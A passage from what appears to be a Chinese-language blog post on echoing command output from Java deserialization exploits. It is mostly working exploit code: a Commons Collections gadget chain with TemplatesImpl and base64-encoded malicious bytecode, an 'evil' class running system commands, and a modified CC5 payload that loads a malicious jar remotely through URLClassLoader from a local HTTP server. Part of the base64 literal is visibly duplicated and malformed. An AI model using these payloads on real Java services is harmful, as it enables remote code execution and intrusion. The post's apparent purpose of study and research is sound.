3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOwEABjxpbml0PgEAAygpVgEAB3J1bnRpbWUBABNMamF2YS9sYW5nL1J1bnRpbWU7BwAoAQAKU291cmNlRmlsZQEAElRlbXBsYXRlc0ltcGwuamF2YQwAGQAaBwApDAAqACsBAARjYWxjDAAsAC0BAA1UZW1wbGF0ZXNJbXBsAQBAY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL3J1bnRpbWUvQWJzdHJhY3RUcmFuc2xldAEAOWNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9UcmFuc2xldEV4Y2VwdGlvbgEAE2phdmEvaW8vSU9FeGNlcHRpb24BABFqYXZhL2xhbmcvUnVudGltZQEACmdldFJ1bnRpbWUBABUoKUxqYXZhL2xhbmcvUnVudGltZTsBAARleGVjAQAnKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL1Byb2Nlc3M7ACEABQAGAAAAAAADAAEABwAIAAIACQAAAD8AAAADAAAAAbEAAAACAAoAAAAGAAEAAAALAAsAAAAgAAMAAAABAAwADQAAAAAAAQAOAA8AAQAAAAEAEAARAAIAEgAAAAQAAQATAAEABwAUAAIACQAAAEkAAAAEAAAAAbEAAAACAAoAAAAGAAEAAAAOAAsAAAAqAAQAAAABAAwADQAAAAAAAQAOAA8AAQAAAAEAFQAWAAIAAAABABcAGAADABIAAAAEAAEAEwABABkAGgACAAkAAABQAAIAAgAAABAqtwABuAACTCsSA7YABFexAAAAAgAKAAAAEgAEAAAAEQAEABIACAATAA8AFAALAAAAFgACAAAAEAAMAA0AAAAIAAgAGwAcAAEAEgAAAAQAAQAdAAEAHgAAAAIAHw==");
        byte[] code=Base64.decode("yv66vgAAADQAaQoAGABABwBBBwBCCABDCABECABFCgACAEYKAAIARwoASABJBwBKCABLCgAKAEwHAE0KAA0AQAcATgoADwBPCgAPAFAKAA0AUQgAUgcAUwoADQBUCgAUAFUHAFYHAFcBAAY8aW5pdD4BAAMoKVYBAARDb2RlAQAPTGluZU51bWJlclRhYmxlAQASTG9jYWxWYXJpYWJsZVRhYmxlAQAEdGhpcwEAGUxkZWZpbmVjbGFzcy9DQ0V2aWxDbGFzczsBAAJpbgEAFUxqYXZhL2lvL0lucHV0U3RyZWFtOwEABnJlYWRlcgEAEExqYXZhL2lvL1JlYWRlcjsBAAVTQnVmZgEAGExqYXZhL2xhbmcvU3RyaW5nQnVmZmVyOwEADmJ1ZmZlcmVkUmVhZGVyAQAYTGphdmEvaW8vQnVmZmVyZWRSZWFkZXI7AQAEbGluZQEAEkxqYXZhL2xhbmcvU3RyaW5nOwEADVN0YWNrTWFwVGFibGUHAFYHAFgHAFkHAE0HAE4HAEIBAApFeGNlcHRpb25zAQAJdHJhbnNmb3JtAQByKExjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NO1tMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOylWAQAIZG9jdW1lbnQBAC1MY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTsBAAhoYW5kbGVycwEAQltMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9zZXJpYWxpemVyL1NlcmlhbGl6YXRpb25IYW5kbGVyOwcAWgEApihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTtMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9kdG0vRFRNQXhpc0l0ZXJhdG9yO0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7KVYBAAhpdGVyYXRvcgEANUxjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL2R0bS9EVE1BeGlzSXRlcmF0b3I7AQAHaGFuZGxlcgEAQUxjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7AQAKU291cmNlRmlsZQEAEENDRXZpbENsYXNzLmphdmEMABkAGgEAGGphdmEvbGFuZy9Qcm9jZXNzQnVpbGRlcgEAEGphdmEvbGFuZy9TdHJpbmcBAANjbWQBAAIvYwEACGlwY29uZmlnDAAZAFsMAFwAXQcAXgwAXwBgAQAZamF2YS9pby9JbnB1dFN0cmVhbVJlYWRlcgEAA0dCSwwAGQBhAQAWamF2YS9sYW5nL1N0cmluZ0J1ZmZlcgEAFmphdmEvaW8vQnVmZmVyZWRSZWFkZXIMABkAYgwAYwBkDABlAGYBAAEKAQATamF2YS9sYW5nL0V4Y2VwdGlvbgwAZwBkDAAZAGgBABdkZWZpbmVjbGFzcy9DQ0V2aWxDbGFzcwEAQGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ydW50aW1lL0Fic3RyYWN0VHJhbnNsZXQBABNqYXZhL2lvL0lucHV0U3RyZWFtAQAOamF2YS9pby9SZWFkZXIBADljb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvVHJhbnNsZXRFeGNlcHRpb24BABYoW0xqYXZhL2xhbmcvU3RyaW5nOylWAQAFc3RhcnQBABUoKUxqYXZhL2xhbmcvUHJvY2VzczsBABFqYXZhL2xhbmcvUHJvY2VzcwEADmdldElucHV0U3RyZWFtAQAXKClMamF2YS9pby9JbnB1dFN0cmVhbTsBACooTGphdmEvaW8vSW5wdXRTdHJlYW07TGphdmEvbGFuZy9TdHJpbmc7KVYBABMoTGphdmEvaW8vUmVhZGVyOylWAQAIcmVhZExpbmUBABQoKUxqYXZhL2xhbmcvU3RyaW5nOwEABmFwcGVuZAEALChMamF2YS9sYW5nL1N0cmluZzspTGphdmEvbGFuZy9TdHJpbmdCdWZmZXI7AQAIdG9TdHJpbmcBABUoTGphdmEvbGFuZy9TdHJpbmc7KVYAIQAXABgAAAAAAAMAAQAZABoAAgAbAAABCQAGAAYAAABrKrcAAbsAAlkGvQADWQMSBFNZBBIFU1kFEgZTtwAHtgAItgAJTLsAClkrEgu3AAxNuwANWbcADk67AA9ZLLcAEDoEAToFGQS2ABFZOgXGABItGQW2ABISE7YAElen/+m7ABRZLbYAFbcAFr8AAAADABwAAAAmAAkAAAANAAQADgAlAA8AMAAQADgAEQBCABIARQATAFAAFABfABcAHQAAAD4ABgAAAGsAHgAfAAAAJQBGACAAIQABADAAOwAiACMAAgA4ADMAJAAlAAMAQgApACYAJwAEAEUAJgAoACkABQAqAAAAHAAC/wBFAAYHACsHACwHAC0HAC4HAC8HADAAABkAMQAAAAQAAQAUAAEAMgAzAAIAGwAAAD8AAAADAAAAAbEAAAACABwAAAAGAAEAAAAdAB0AAAAgAAMAAAABAB4AHwAAAAAAAQA0ADUAAQAAAAEANgA3AAIAMQAAAAQAAQA4AAEAMgA5AAIAGwAAAEkAAAAEAAAAAbEAAAACABwAAAAGAAEAAAAiAB0AAAAqAAQAAAABAB4AHwAAAAAAAQA0ADUAAQAAAAEAOgA7AAIAAAABADwAPQADADEAAAAEAAEAOAABAD4AAAACAD8=/+m7ABRZLbYAFbcAFr8AAAADABwAAAAmAAkAAAANAAQADgAlAA8AMAAQADgAEQBCABIARQATAFAAFABfABcAHQAAAD4ABgAAAGsAHgAfAAAAJQBGACAAIQABADAAOwAiACMAAgA4ADMAJAAlAAMAQgApACYAJwAEAEUAJgAoACkABQAqAAAAHAAC/wBFAAYHACsHACwHAC0HAC4HAC8HADAAABkAMQAAAAQAAQAUAAEAMgAzAAIAGwAAAD8AAAADAAAAAbEAAAACABwAAAAGAAEAAAAdAB0AAAAgAAMAAAABAB4AHwAAAAAAAQA0ADUAAQAAAAEANgA3AAIAMQAAAAQAAQA4AAEAMgA5AAIAGwAAAEkAAAAEAAAAAbEAAAACABwAAAAGAAEAAAAiAB0AAAAqAAQAAAABAB4AHwAAAAAAAQA0ADUAAQAAAAEAOgA7AAIAAAABADwAPQADADEAAAAEAAEAOAABAD4AAAACAD8=/+m7ABRZLbYAFbcAFr8AAAADABwAAAAmAAkAAAANAAQADgAlAA8AMAAQADgAEQBCABIARQATAFAAFABfABcAHQAAAD4ABgAAAGsAHgAfAAAAJQBGACAAIQABADAAOwAiACMAAgA4ADMAJAAlAAMAQgApACYAJwAEAEUAJgAoACkABQAqAAAAHAAC/wBFAAYHACsHACwHAC0HAC4HAC8HADAAABkAMQAAAAQAAQAUAAEAMgAzAAIAGwAAAD8AAAADAAAAAbEAAAACABwAAAAGAAEAAAAdAB0AAAAgAAMAAAABAB4AHwAAAAAAAQA0ADUAAQAAAAEANgA3AAIAMQAAAAQAAQA4AAEAMgA5AAIAGwAAAEkAAAAEAAAAAbEAAAACABwAAAAGAAEAAAAiAB0AAAAqAAQAAAABAB4AHwAAAAAAAQA0ADUAAQAAAAEAOgA7AAIAAAABADwAPQADADEAAAAEAAEAOAABAD4AAAACAD8=");


        //反射设置 Field
        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates, "_bytecodes",new byte[][]{code});
        setFieldValue(templates, "_name", "Yasax1");
        setFieldValue(templates,"_tfactory", new TransformerFactoryImpl());
        //Transformer数组
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templates})
        };

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

        //LazyMap实例
        HashMap innermap = new HashMap();
        LazyMap map = (LazyMap)LazyMap.decorate(innermap,chainedTransformer);

        TiedMapEntry tiedmap = new TiedMapEntry(map,123);
        BadAttributeValueExpException poc = new BadAttributeValueExpException(1);
        Field val = Class.forName("javax.management.BadAttributeValueExpException").getDeclaredField("val");
        val.setAccessible(true);
        val.set(poc,tiedmap);
        //序列化
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(poc);
        oos.flush();
        oos.close();
        //测试反序列化
        ByteArrayInputStream bais = new ByteArrayInputStream(baos.toByteArray());
        ObjectInputStream ois = new ObjectInputStream(bais);
        ois.readObject();
        ois.close();
    }

    //反射设置 Field
    public static void setFieldValue(Object object, String fieldName, Object value) {
        try {
            Field field = object.getClass().getDeclaredField(fieldName);
            field.setAccessible(true);
            field.set(object, value);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```
恶意字节码
```java
package defineclass;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;

import java.io.BufferedReader;
import java.io.InputStream;
import java.io.InputStreamReader;
import java.io.Reader;

public class CCEvilClass extends AbstractTranslet {

    public CCEvilClass() throws Exception {
       super();
       InputStream in = new ProcessBuilder("cmd","/c","ipconfig").start().getInputStream();  //将我们命令结果转换为输入流
        Reader reader = new InputStreamReader(in, "GBK");                   //转换为字符流
        StringBuffer SBuff = new StringBuffer();
        BufferedReader bufferedReader = new BufferedReader(reader);
        String line = null;
        while((line = bufferedReader.readLine()) != null) {
            SBuff.append(line).append("\n");
        }
        //通过报错输出异常
        throw new Exception(SBuff.toString());
    }
    @Override
    public void transform(com.sun.org.apache.xalan.internal.xsltc.DOM document, com.sun.org.apache.xml.internal.serializer.SerializationHandler[] handlers) throws com.sun.org.apache.xalan.internal.xsltc.TransletException {

    }

    @Override
    public void transform(com.sun.org.apache.xalan.internal.xsltc.DOM document, com.sun.org.apache.xml.internal.dtm.DTMAxisIterator iterator, com.sun.org.apache.xml.internal.serializer.SerializationHandler handler) throws com.sun.org.apache.xalan.internal.xsltc.TransletException {
    }
}
```

# URLClassLoader远程加载

URLClassLoader是`java.net`下的类，继承了`java.lang.Classloader`类对象。URLClassLoader可以从远端或者本地加载jar/class文件。

## 前期准备

构造恶意jar包

```cmd
jar -cvf EvilClass.jar EvilClass.class
```

启动恶意服务 `python -m http.server`

## 加载恶意

我们的EvilClass不要带package,不然加载不出来

```java
import java.io.InputStream;
import java.io.InputStreamReader;
import java.io.Reader;

public class EvilClass {
    public static void Exec(String cmd) throws Exception{
        InputStream in = new ProcessBuilder("cmd","/c",cmd).start().getInputStream();  //将我们命令结果转换为输入流
        Reader reader = new InputStreamReader(in, "GBK");                   //转换为字符流
        StringBuffer SBuff = new StringBuffer();
        for (;;) {
            int n = reader.read(); // 反复调用read()方法，直到返回-1
            if (n == -1) {
                break;
            }
            char c=(char)n;
            SBuff.append(c);
        }
        reader.close(); // 关闭流
        //通过报错输出异常
        throw new Exception(SBuff.toString());
    }
    public static void main(String[] args) throws Exception {
        EvilClass evil = new EvilClass();
        evil.Exec("ipconfig");
    }
}
```

利用URLClassLoader进行加载

```java
package URLClassLoader;

import java.lang.reflect.Constructor;
import java.lang.reflect.Method;
import java.net.URL;
import java.net.URLClassLoader;

public class URLload {
    public static void main(String[] args) throws Exception {

        URL url = new URL("http://127.0.0.1:8000/EvilClass.jar");
        URL[] urls = {url};
        URLClassLoader urlClassLoader = URLClassLoader.newInstance(urls);
        Constructor<?> processExec = urlClassLoader.loadClass("EvilClass").getConstructor();
        Object obj=processExec.newInstance();
        Method exec=obj.getClass().getMethod("Exec",String.class);
        exec.invoke(obj,"ipconfig");
    }
}
```

## 配合反序列化

之前我的Exec方法没有设置为静态方法,导致构造payload的时候一直没有构造出来,后面查了一些资料,这样的话invoke方法中就不需要指明object了,可以让我们的payload构造更加简单



这里改造了下CC5

```java
package URLClassLoader;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;
import org.apache.commons.collections4.keyvalue.TiedMapEntry;

import javax.management.BadAttributeValueExpException;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.net.URL;
import java.net.URLClassLoader;
import java.util.HashMap;

public class CCLoad {
    public static Object generatePayload() throws Exception {
        ChainedTransformer Transformerchain = new ChainedTransformer(new Transformer[] {
                new ConstantTransformer(URLClassLoader.class),
                new InvokerTransformer("getConstructor",
                        new Class[]{Class[].class},
                        new Object[]{new Class[]{URL[].class}}),
                new InvokerTransformer("newInstance",
                        new Class[]{Object[].class},
                        new Object[]{new Object[]{new URL[]{new URL("http://127.0.0.1:8000/EvilClass2.jar")}}}),
                new InvokerTransformer("loadClass",
                        new Class[]{String.class},
                        new Object[]{"EvilClass"}),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"Exec", new Class[]{String.class}}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[]   .class},new Object[]{null,new Object[]{"ipconfig"}})

        });
        HashMap innermap = new HashMap();
        LazyMap map = (LazyMap)LazyMap.decorate(innermap,Transformerchain);
        TiedMapEntry tiedmap = new TiedMapEntry(map,123);
        BadAttributeValueExpException poc = new BadAttributeValueExpException(1);
        Field val = Class.forName("javax.management.BadAttributeValueExpException").getDeclaredField("val");
        val.setAccessible(true);
        val.set(poc,tiedmap);
        return poc;
    }
    public static void main(String[] args) throws Exception {
        payload2File(generatePayload(),"obj");
        payloadTest("obj");
    }
    public static void payload2File(Object instance, String file)
            throws Exception {
        //将构造好的payload序列化后写入文件中
        ObjectOutputStream out = new ObjectOutputStream(new FileOutputStream(file));
        out.writeObject(instance);
        out.flush();
        out.close();
    }
    public static void payloadTest(String file) throws Exception {
        //读取写入的payload，并进行反序列化
        ObjectInputStream in = new ObjectInputStream(new FileInputStream(file));
        in.readObject();
        in.close();
    }
}
```

# RMI绑定回显

可以看看y4er师傅的文章,[Weblogic使用ClassLoader和RMI来回显命令执行结果](https://xz.aliyun.com/t/7228#toc-0)

这里就是用RMI进行一个远程调用恶意类,然后输出命令结果,主要开始看一下结合Weblogic的利用

## RMI与weblogic


# 参考

https://blog.csdn.net/sun1318578251/article/details/106310866

https://l3yx.github.io/2020/03/31/Java-Web%E4%BB%A3%E7%A0%81%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%E5%9B%9E%E6%98%BE%E6%80%BB%E7%BB%93/#%E5%8F%82%E8%80%83

https://y4er.com/post/java-deserialization-echo/

https://www.cnblogs.com/nice0e3/p/14945707.html#%E6%94%B9%E9%80%A0

https://xz.aliyun.com/t/7228#toc-7

https://summersec.github.io/2020/06/01/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%9B%9E%E6%98%BE%E8%A7%A3%E5%86%B3%E6%96%B9%E6%A1%88/